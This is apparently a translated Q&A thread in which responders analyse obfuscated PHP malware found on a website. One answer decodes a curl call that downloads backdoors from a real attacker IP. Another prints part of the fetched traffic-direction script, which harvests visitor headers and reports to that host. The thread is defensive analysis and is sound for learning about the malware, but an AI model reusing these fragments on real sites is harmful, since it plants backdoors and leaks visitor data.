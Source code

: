 > 赞同：3
> 
> 时间：2012-09-28T22:46:58.050

### 免责声明

> 解码后我到达了[http://pastebin.com/VGqeGDkH](http://pastebin.com/VGqeGDkH)。请不要在您的系统上运行上述代码......因为它不是唯一会下载到您的系统的罚款。

黑客发送`curl`或`file_get_contents`请求：

```
curl_setopt($vH5wU9kS8uO3wG9xI7wR5aV1fS3vU2qC2bA6yP9oG2uZ1zF7zZ5dR8gI0tJ3jV3oB0cD1iN6dD1vL8gL2uP4fX0yU2tF4bR8qD1xB2pL7eS9kW2rI7vD1dS5oA4iP9jH6, CURLOPT_URL, "$pO6oA9pF4aY2lO7dY9vK3sU7nL8lF4gL1dY7uD8mU4xH9gM2hR9gT8tA6dJ1aB9sA8wP3sO5zI8xR2eZ0aD4dK7uQ0rG7aA7nI6kZ3kI3tG5$cO9qE4hY7wW5rJ7qL1bN7uP0dE2zE9rB2bV6lY3sJ8eO3rN3pR0tA8mA0qR1oK2dE9qM3yH0kB1wU1qX2pJ0bS5xV4mG7pY1pI6iK8eP8xY3yX2$kI8yO6lP1lN7wX0fV2kY1zI9vO3mS6wK3lT9gH9rE6tZ8xT6dE7wG4dP5iJ0mC7bX0zJ3tO1iD0eD2hE4cJ0pG4gZ1bC8lT5jM1iK8hD3$tV3uB4lG2gC9iV5fE4bJ3lC6mO1sN2hE7tH0gA0iC9cT5eR4pE2aW4nA7qI5oA8uW7mZ2fE6cQ7rB9cR0xG4gY9rM9hC2rN1$tV3uB4lG2gC9iV5fE4bJ3lC6mO1sN2hE7tH0gA0iC9cT5eR4pE2aW4nA7qI5oA8uW7mZ2fE6cQ7rB9cR0xG4gY9rM9hC2rN1$fK3iD2pY6sG1xV5wB5wU8pJ1hP2qW7wZ5sI1kS4pN0pO7bD1fE1vZ2aL3pV0uZ2fI3eQ4kI9aD8wN5bF0jR8aQ8sN6rD0pV6sM4uJ7zK6aW5dR4bC7$tV3uB4lG2gC9iV5fE4bJ3lC6mO1sN2hE7tH0gA0iC9cT5eR4pE2aW4nA7qI5oA8uW7mZ2fE6cQ7rB9cR0xG4gY9rM9hC2rN1$zP3dW5gU5bS0sO7aO2cQ5tD0eV6cD9rW9sJ9jM0kO6zK8wL8hL9xU3zI1gJ7xT2rX9tO9wD6gL0pV5eD2rT4hL2uP1jB9sE2cU0fG6gJ1zM0pM2vS1wZ8lQ7uN8qA6eY0$qM2xA6eC8gQ2lE0qQ8eM7xT2dV5sS1aW2wH3qL5dG5sF3fI4zA1xG9gN9xV7fO4zT5qV2yU1gC2lR2vB1hF5dO6gC9xH6aC1wA6$zV0mR4mU2lH5iU0qI9iN1vM6eU2uO2qJ2fH4mY7wK1kH5nR0fE4yV8rI0vR3lM3zW2jK8cG3dX4zM3oQ8iK0iK7yS1fY0oE4yZ3xN7iI4sN6"); 
```

解码后你会得到

```
curl_setopt($ch, CURLOPT_URL, "http://95.211.128.197/100JS71MLKpzPzFbcYeVvZUMxCRUKBVFFx6iO6pr2VfhBthyzGcp.txt"); 
```

然后，这将下载文件和不同的后门到系统..

黑客还使用了很多先进的方法，例如加密、变量递归和大量备份。他还确保最终的机器人没有被谷歌、雅虎、微软公司、亚马逊、UCSD.EDU、印第安纳大学、索尼克发现。 .net 、 MCAFEE INTERNATIONAL 和 hz

**我的建议**

联系您的托管公司或安全专家..`Your server needs to be checked`

* * *

## 回答 #2

> 赞同：0
> 
> 时间：2012-09-28T23:00:42.180

这是一个搜索引擎去优化器。它会将恶意文字注入您网站的内容中。因此，当机器人（如 Google 机器人）出现为您的网站编制索引时，它会将这些词与您的网站相关联。

这是它下载的文件的代码

**别跑**

```
 $sutra = "http://95.211.128.197/tds";           // TDS Url
    $scheme = "default";                            // TDS Cheme
    $www_root = "http://95.211.128.197";            // Manager path

    $host=$_SERVER['HTTP_HOST'];
    $agent=$_SERVER['HTTP_USER_AGENT'];
    $server_accept_language = @$_SERVER['HTTP_ACCEPT_LANGUAGE'];
    $server_user_agent = @$_SERVER['HTTP_USER_AGENT'];
    $server_referer = @$_SERVER['HTTP_REFERER'];
    $server_host = @$_SERVER['HTTP_HOST'];
    $server_forwarded_for = @$_SERVER['HTTP_X_FORWARDED_FOR'];
    $server_remote_addr = @$_SERVER['REMOTE_ADDR'];
```